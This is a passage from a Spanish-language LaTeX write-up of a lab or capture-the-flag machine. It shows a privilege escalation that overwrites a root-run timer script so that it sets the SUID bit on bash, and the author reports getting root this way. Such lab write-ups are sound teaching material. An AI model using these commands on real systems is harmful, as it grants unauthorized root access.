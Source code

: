 \documentclass{article}
\begin{document}
Entonces tratamos de modificarlo para que haga lo que queremos con permisos elevados, probamos primero intentando crear una shell aparte en temporal para ejecutar lo que queremos, y esto se hace con el comando.

\begin{lstlisting}[language={[ANSI]C}]  
	echo "#!/bin/bash
		cp /bin/bash /tmp/bash 
		chmod u+s /tmp/bash" 
		> /usr/bin/timer_backup.sh
\end{lstlisting}
pero no funcionó así que usé

\begin{lstlisting}[language={[ANSI]C}]  
	echo "#!/bin/bash \nchmod u+s /bin/bash" > /usr/bin/timer_backup.sh
\end{lstlisting}
\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/time/cambiando-timer.jpg}
	\caption{Cambiando el timer}
\end{figure}
con esto ya pude obtener acceso al fin como root
\begin{figure}[H]
	\center
	\includegraphics[width=\textwidth]{images/time/obteniendo-root.png}
	\caption{Obteniendo acceso como root}
\end{figure}



\clearpage 
\section{Jarvis}
\end{document}
